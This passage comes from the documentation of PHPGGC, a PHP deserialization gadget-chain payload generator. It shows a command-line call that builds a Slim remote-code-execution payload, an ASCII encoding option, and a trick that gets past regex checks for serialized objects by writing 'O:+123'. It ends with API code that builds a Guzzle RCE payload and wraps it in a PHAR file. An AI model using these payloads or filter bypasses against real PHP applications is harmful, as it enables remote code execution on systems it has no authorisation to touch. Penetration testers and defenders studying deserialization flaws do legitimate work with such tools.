 ```
$ ./phpggc -f -s slim/rce1 system id
a:2:{i:7;O:18:"Slim\Http\Response":2:{s:10:"...
```

### ASCII Strings

Uses the `S` serialization format instead of the standard `s`. This replaces every non-ASCII value to an hexadecimal representation:
`s:5:"A<null_byte>B<cr><lf>";̀` -> `S:5:"A\00B\09\0D";`
This can be useful when for some reason non-ascii characters are not allowed (NULL BYTE for instance). Since payloads generally contain them, this makes sure that the payload consists only of ASCII values.
*Note: this is experimental and it might not work in some cases.*

### Plus Numbers

Sometimes, PHP scripts verify that the given serialized payload does not contain objects by using a regex such as `/O:[0-9]+:`. This is easily bypassed using `O:+123:...` instead of `O:123:`. One can use `--plus-numbers <types>`, or `-n <types>`, to automatically add these `+` signs in front of symbols.
For instance, to obfuscate objects and strings, one can use: `--n Os`. Please note that since PHP 7.2, only i and d (float) types can have a +.


# API

Instead of using PHPGGC as a command line tool, you can program PHP scripts:

```php
<?php

# Include PHPGGC
include("phpggc/lib/PHPGGC.php");

# Include guzzle/rce1
$gc = new \GadgetChain\Guzzle\RCE1();

# Always process parameters unless you're doing something out of the ordinary
$parameters = $gc->process_parameters([
	'function' => 'system',
	'parameter' => 'id',
]);

# Generate the payload
$object = $gc->generate($parameters);

# Most (if not all) GC's do not use process_object and process_serialized, so
# for quick & dirty code you can omit those two 
$object = $gc->process_object($object);

# Serialize the payload
$serialized = serialize($object);
$serialized = $gc->process_serialized($serialized);

# Display it
print($serialized . "\n");

# Create a PHAR file from this payload
$phar = new \PHPGGC\Phar\Tar($serialized);
file_put_contents('output.phar.tar', $phar->generate());
```
